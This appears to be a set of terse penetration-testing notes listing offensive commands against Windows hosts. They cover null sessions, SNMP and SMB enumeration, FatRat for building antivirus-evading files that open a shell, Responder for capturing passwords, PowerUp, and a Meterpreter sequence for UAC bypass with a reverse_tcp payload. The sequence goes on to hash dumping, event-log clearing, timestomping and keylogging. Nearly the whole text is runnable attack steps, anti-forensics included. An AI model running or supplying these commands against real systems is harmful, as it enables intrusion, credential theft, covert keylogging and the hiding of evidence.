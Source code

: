 device name: nbstat -A <ip>
null session: 1. net use \\<ip>\e ""\user:""
2. net use \\<ip>\e ""/user:""

exploit snmp(msf):
1. auxillary/scanner/snmp/snmp_login
2. auxillary/scanner/snmp/snmp_enum

active directory explorer

enum4linux -u <usrname> -p <pass> <ip> -o(os detection) -P(pswd policy) -G(groups) -S(share policy)

nikto -h <url> Tuning 1

Recon: skipfish
skipfish -o /root/test -S /root/share/dictionaries/complete.wl http://<ip>

********************************
#System Hacking

- FatRat: create files that gives shell when opened, bypass most antivirus
	. execute permission to fatrat, setup.sh, powerfull.sh

- responder.py: LLMNR and NBT-NS are enabled by default(win), act as original server and create connection with clients to get pass.
	. add executable permission to .py
	. > sudo responder.py -I <interface>


********************************

# PrevEsc

- PowerSploit: github.com/PowerShellMafia/PowerSploit (recon for vuln privesc way)
	. upload PowerSploit/Privesc/PowerUp.ps1
	. powershell -ExecutionPolicy Bypass -Command ". .PowerUp.ps1;Invoke-AllChecks"
- BeRoot.exe
/* Meterpreter*/
- getsystem -t 1
	. if fails
		.. background session
		.. use exploit/windows/local/bypassuac_fodhelper
		.. set SESSION 1 (param in exploit set to backgroud meterpreter)
		.. set payload window/meterpreter/reverse_tcp
		.. set lhost, target=0
		.. exploit. Next "getuid" to check priv in meterpreter
		.. getsystem -t -1(for SYSTEM priv)
		.. run post/windows/gather/smart_hashdump
		.. "clearev" to clear logs
- to change "Modified, Accessed, Created or entry modified value" of file in meterpreter: timestomp <file> -m(fore modified) "<value>"
- keyscan start. Then to see keylogger capture: keyscan dump
- idletime
- shutdown
- search -f <file>
/*--*/
